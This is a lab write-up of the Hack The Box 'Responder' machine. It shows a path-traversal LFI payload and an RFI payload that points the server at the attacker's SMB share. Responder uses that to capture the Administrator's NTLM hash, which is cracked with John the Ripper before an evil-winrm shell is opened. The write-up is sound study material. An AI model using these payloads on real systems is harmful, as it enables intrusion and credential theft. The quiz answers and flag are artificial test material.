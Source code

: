 # Responder (Tier 1)

## <mark style="color:blue;">Description</mark>

* **Tier&#x20;**<mark style="color:green;">**->**</mark>**&#x20;1**
* **Difficult** <mark style="color:green;">**->**</mark> Very Easy
* **OS** <mark style="color:green;">**->**</mark> Linux
* **Tags&#x20;**<mark style="color:green;">**->**</mark> WinRM / Custom Applications / Protocols / XAMPP / SMB / Responder / PHP\
  &#x20;            / Reconnaissance / Password Cracking / Hash Capture / Remote File Inclusion\
  &#x20;            / Remote Code Execution

<figure><img src="../../.gitbook/assets/image (120) (1).png" alt=""><figcaption><p><a href="https://app.hackthebox.com/starting-point?tier=1">https://app.hackthebox.com/starting-point?tier=1</a></p></figcaption></figure>

## <mark style="color:blue;">Write-up</mark>

* I started doing an initial scan using [_Nmap_](../../networks/tools-and-utilities.md#nmap)

<pre class="language-bash" data-line-numbers><code class="lang-bash"><strong>nmap -p- -Pn --min-rate 2000 10.129.215.213
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (138) (1).png" alt=""><figcaption></figcaption></figure>

***

* Then I did an exhaustive scan to get more information about the service running on the open port

<pre class="language-bash" data-line-numbers><code class="lang-bash"><strong>nmap -p80 -sVC 10.129.215.213
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (140) (1).png" alt=""><figcaption></figcaption></figure>

***

* I found the HTTP protocol running on port 80, so I went to the browser to check the content being deployed. Hitting the site using the IP redirected me to a domain named _unika.htb,_ but I was unable to reach the server

<figure><img src="../../.gitbook/assets/image (139) (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
To learn more about the HTTP protocol, you can go [here](../../networks/protocols/http/)
{% endhint %}

***

* With this, I answered the first question

<figure><img src="../../.gitbook/assets/image (141) (1).png" alt=""><figcaption></figcaption></figure>

> Answer: _**unika.htb**_

***

* The reason why the page didn't show me content was that it wasn't on my list of known hosts. To fix this, I added it by modifying the _/etc/hosts_ file, relating the IP to the _unika.htb_ domain. After that, I hit the site again, and it worked properly

{% code lineNumbers="true" %}
```bash
sudo nano /etc/hosts
```
{% endcode %}

<figure><img src="../../.gitbook/assets/image (142) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (143) (1).png" alt=""><figcaption></figcaption></figure>

***

* Once there, I found a dashboard page for a business with some buttons that didn't work. Exploring the page, I didn't find anything relevant, so I used the [_Wappalyzer_](../../web-exploitation/tools-and-utilities.md#wappalyzer) extension to get some extra information about the technologies of the site

<figure><img src="../../.gitbook/assets/image (146) (1).png" alt=""><figcaption></figcaption></figure>

***

* With this, I answered the next question

<figure><img src="../../.gitbook/assets/image (147) (1).png" alt=""><figcaption></figcaption></figure>

> Answer: _**php**_

***

* Navigating to the top right corner, I found a slider to select the language of the page, which caught my attention. When I selected a different language from _english_, the language of the whole page changed, and the URL showed a query reflecting this action

<figure><img src="../../.gitbook/assets/image (144) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (145) (1).png" alt=""><figcaption></figcaption></figure>

***

* With this, I answered the next question

<figure><img src="../../.gitbook/assets/image (148) (1).png" alt=""><figcaption></figcaption></figure>

> Answer: _**page**_



***

* To test if this query could be vulnerable to a Local File Inclusion attack, I tried listing the contents of the _/etc/hosts_ file by changing the value of the _page_ parameter. After some tries, I found a successful payload and displayed the content of the requested file

{% code title="Payload" lineNumbers="true" %}
```url
page=../../../../../../../../windows/system32/drivers/etc/hosts
```
{% endcode %}

<figure><img src="../../.gitbook/assets/image (151) (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
To learn more about Local File Inclusion and its exploitation, you can go [here](../../web-exploitation/broken-access-control/local-file-inclusion.md)
{% endhint %}

***

* With this and a little research, I answered some questions

<figure><img src="../../.gitbook/assets/image (152) (1).png" alt=""><figcaption></figcaption></figure>

> Answer: ../../../../../../../../windows/system32/drivers/etc/hosts

***

<figure><img src="../../.gitbook/assets/image (153) (1).png" alt=""><figcaption></figcaption></figure>

> Answer: _**//10.10.14.6/somefile**_

***

<figure><img src="../../.gitbook/assets/image (154) (1).png" alt=""><figcaption></figcaption></figure>

> Answer: _**New Technology Lan Manager**_

***

<figure><img src="../../.gitbook/assets/image (155) (1).png" alt=""><figcaption></figcaption></figure>

> Answer: _**-I**_

***

<figure><img src="../../.gitbook/assets/image (156) (1).png" alt=""><figcaption></figcaption></figure>

> Answer: _**John The Ripper**_

***

* Knowing that I could abuse this, I tried using the [_Responder_](../../networks/tools-and-utilities.md#responder) utility to intercept the communication between the web server and the local system. That was to try to catch the credentials for the internal SMB service, based on the fact that it was a Windows system and could be running it. I started configuring the tool, so I modified the _Responder.config_ file to set the value _SMB_ to _On_

{% code overflow="wrap" lineNumbers="true" %}
```bash
sudo nano /usr/share/responder/Responder.conf
```
{% endcode %}

<figure><img src="../../.gitbook/assets/image (160) (1).png" alt=""><figcaption></figcaption></figure>

***

* After that, I initialized the tool specifying the network interface I wanted to use, in this case, the _tun0_ interface

<figure><img src="../../.gitbook/assets/image (161) (1).png" alt=""><figcaption><p>Snippet</p></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (162) (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
We can check the interface using the`ifconfig` command. Normally, the _tun0_ interface is the one related to the connection with a VPN
{% endhint %}

***

* Then I went to the vulnerable endpoint again to modify the URL and tried to do a Remote File Inclusion to my machine, to connect to the _Responder_ server I had deployed. With this action, the page displayed an error, but when checking the terminal, _Responder_ had caught the credentials of the target

{% code title="Payload" overflow="wrap" lineNumbers="true" %}
```url
page=//10.10.14.195/somefile
```
{% endcode %}

<figure><img src="../../.gitbook/assets/image (163) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (164) (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
To learn more about Remote File Inclusion and its exploitation, you can go [here](../../web-exploitation/broken-access-control/remote-file-inclusion.md)
{% endhint %}

***

* I caught the communication from the _Administrator_ user and the corresponding hash, so I saved it in a text file. I could try to break the hash using the [_John the Ripper_](../../cryptography/tools-and-utilities.md#john-the-ripper) tool and the well-known _rockyou.txt_ dictionary. After running it, I observed the cracking process was successful, obtaining the password _badminton_ for the user _Administrator_

{% code overflow="wrap" lineNumbers="true" %}
```bash
john -w=/usr/share/wordlists/rockyou.txt hash.txt
```
{% endcode %}

<figure><img src="../../.gitbook/assets/image (166) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (165) (1).png" alt=""><figcaption></figcaption></figure>

***

* With this and a little research, I answered the next questions

<figure><img src="../../.gitbook/assets/image (159) (1).png" alt=""><figcaption></figcaption></figure>

> Answer:  _**badminton**_

***

<figure><img src="../../.gitbook/assets/image (157) (1).png" alt=""><figcaption></figcaption></figure>

> Answer: _**5985**_

***

* Having these credentials, I could try to connect to the system directly. For this purpose, I used the _evil-winrm_ tool to try to get a shell, and it worked successfully

<figure><img src="../../.gitbook/assets/image (167) (1).png" alt=""><figcaption></figcaption></figure>

***

* Searching through the system, I found a file called _flag.txt_ in the _C:\Users\mike\Desktop_ folder. Finally, I checked the content of the _flag.txt_ file, retrieving the flag

<figure><img src="../../.gitbook/assets/image (168) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (169) (1).png" alt=""><figcaption></figcaption></figure>

***

* With this, I got the root flag and pwned the machine

<figure><img src="../../.gitbook/assets/image (133) (1).png" alt=""><figcaption></figcaption></figure>

> Answer: _**ea81b7afddd03efaa0945333ed147fac**_
